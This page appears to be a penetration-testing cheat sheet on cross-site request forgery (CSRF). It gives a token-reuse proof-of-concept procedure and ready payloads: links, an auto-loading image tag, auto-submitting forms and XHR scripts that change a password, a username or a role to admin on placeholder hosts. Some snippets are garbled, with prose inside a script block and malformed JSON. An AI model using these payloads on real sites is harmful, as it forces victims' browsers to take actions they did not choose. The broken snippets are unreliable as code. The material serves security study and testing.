 ```yaml
---
description: Cross Site Request Forgery
---
```


# CSRF

An attack where a victim unknowingly causes their browser to perform an unwanted action on a site where they are already authenticated.  This can be caused via the attacker using some form of social engineering to fool a user into opening a malicious link, e-mail, instant message or program which automates the action.  
An unrealistic and simplified example would be a victim clicking on a link like https://paypal.com/user/sadvictim/sendfunds/99999dollars/touser/bad\_daddy or https://facebook.com/user/ignoramus/changepassword?newpassword=123456 , though the links would be portrayed as something else and the victim already has logged-in cookies to those domains.

The vulnerability is available if you can use the same CSRF token across multiple accounts \(check your cookies to find it\). You can build a poc by...  
1. Login to account 1  
**2.** Go to password change page  
3. capture CSRF token  
4. logout and login to account 2   
5. go to password change page  
6. Intercept request with a proxy and replace token  


\*\*\*\*

**Via GET request**  
requiring user interaction:  
`<a href="http://site.com/api/setuserpassword=babyboy">Click Me!</a>`  
Not requiring user interaction \(will happen as soon as browser loads\)  
`<img src="http://site.com/api/setuserpassword=badbaby">`

**Via POST request**  


User Interaction Required

```text
<form action="http://site.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="baddaddy" />
 <input type="submit" value="Submit Request" />
</form>
```

User Interaction Not Required

```text
<form id="autosubmit" action="http://site.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="badboy" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

**Via json GET**

```text
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.xyz.com/api/currentuser");
xhr.send();
</script>
```

**Via json POST**  


```text
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://site.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
You will probably want to also try one or both of these
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
_______________________OR______________________________
`<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://site.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>``
```

